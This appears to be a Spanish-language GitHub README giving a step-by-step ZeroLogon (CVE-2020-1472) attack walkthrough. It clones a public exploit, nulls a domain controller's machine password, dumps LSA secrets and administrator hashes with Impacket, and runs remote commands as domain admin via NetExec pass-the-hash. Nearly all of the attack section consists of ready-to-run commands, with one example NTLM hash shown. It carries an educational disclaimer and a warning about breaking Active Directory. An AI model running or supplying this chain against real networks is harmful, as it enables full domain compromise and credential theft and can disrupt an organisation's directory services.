 # 📌 Ataque ZeroLogon (CVE-2020-1472)

Este repositorio documenta paso a paso cómo ejecutar el ataque **ZeroLogon** utilizando `NetExec` (antes CrackMapExec), el exploit de [VoidSec](https://github.com/VoidSec/CVE-2020-1472) y herramientas de Impacket.

---

## ⚠️ Importante

> Esta guía es solo para fines **educativos** y debe usarse únicamente en laboratorios controlados con permiso explícito. **NO** ejecutes este procedimiento en redes productivas.

---

## ⚙️ Requisitos

- Controlador de dominio sin parches para CVE-2020-1472.
- Máquina atacante con:
  - Linux o WSL.
  - Python 3.
  - NetExec (`nxc`), Impacket y Git instalados.

---

## 🧭 Paso a paso del ataque

### 1. Verificar conectividad SMB con el DC

```bash
nxc smb [IP_DEL_SERVER_AD]
```

Repetir si es necesario para confirmar acceso:

```bash
nxc smb [IP_DEL_SERVER_AD]
```

---

### 2. Explotar ZeroLogon con NetExec

```bash
nxc smb [IP_DEL_SERVER_AD] -u '' -p '' -M zerologon
```

Este módulo intenta autenticar usando claves nulas y explotar la vulnerabilidad en Netlogon.

---

### 3. Clonar el exploit de VoidSec

```bash
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
```

---

### 4. Cambiar la contraseña de la cuenta de equipo del DC

```bash
python3 cve-2020-1472-exploit.py
```

O usar argumentos manuales:

```bash
python3 cve-2020-1472-exploit.py -t [IP_DEL_SERVER_AD] -n [NOMBRE_DEL_SERVER_AD]
```

---

### 5. Volcar hashes con Impacket

```bash
impacket-secretsdump '[NOMBRE_DEL_DOMINIO_AD]/[NOMBRE_DEL_SERVER_AD]$@[IP_DEL_SERVER_AD]'
```

Esto permite obtener los secretos de LSA y hash de administrador.

---

### 6. Validar acceso como máquina y luego como administrador

```bash
nxc smb [IP_DEL_SERVER_AD] -u '[NOMBRE_DEL_SERVER_AD]$' -p '' --lsa
```

Con hash de administrador (por ejemplo):

```bash
nxc smb [IP_DEL_SERVER_AD] -u '[USUARIO_ADMINISTRADOR]' -H '[HASH_DE_ADMINISTRADOR]' --lsa
```

---

### 7. Restaurar la contraseña original del DC (opcional)

```bash
python3 reinstall_original_pw.py
```

O con argumentos:

```bash
python3 reinstall_original_pw.py [NOMBRE_DEL_SERVER_AD]$ [IP_DEL_SERVER_AD] [HASH_LARGO]
```

---

### 8. Validar acceso final con hash NTLM

```bash
impacket-secretsdump '[NOMBRE_DEL_DOMINIO_AD]/[NOMBRE_DEL_SERVER_AD]$@[IP_DEL_SERVER_AD]'
```

---

### 9. Ejecutar comando remoto como administrador

```bash
nxc smb [IP_DEL_SERVER_AD] -u 'administrator' -H 'b8f81826afbf8feae22924970055d318' -x whoami
```

---

## 🧪 ¿Qué hicimos?

- Usamos `nxc` para aprovechar la vulnerabilidad en Netlogon.
- Reemplazamos la contraseña de la cuenta del DC con una contraseña nula.
- Extraímos hashes y secretos del sistema.
- Accedimos remotamente como administrador de dominio.
- Finalmente restauramos el estado original (opcional).

---

## 📚 Referencias

- [ZeroLogon CVE-2020-1472 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)
- [VoidSec CVE-2020-1472 Exploit](https://github.com/VoidSec/CVE-2020-1472)
- [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

------

## 🚨 Advertencia

### Riesgo crítico: el AD puede romperse
El exploit ZeroLogon cambia la contraseña de la cuenta de máquina del controlador de dominio (DC01$). Si no se restaura rápidamente, el controlador ya no podrá autenticarse ni replicarse con otros DCs.

Esto puede:

Romper la replicación del Active Directory.

Causar fallos en políticas, usuarios y servicios.

Obligar a restaurar el dominio desde backups.

### 🛑 Siempre restaurá la contraseña original del DC antes de que se sincronice con otros controladores.

---

## 👤 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.
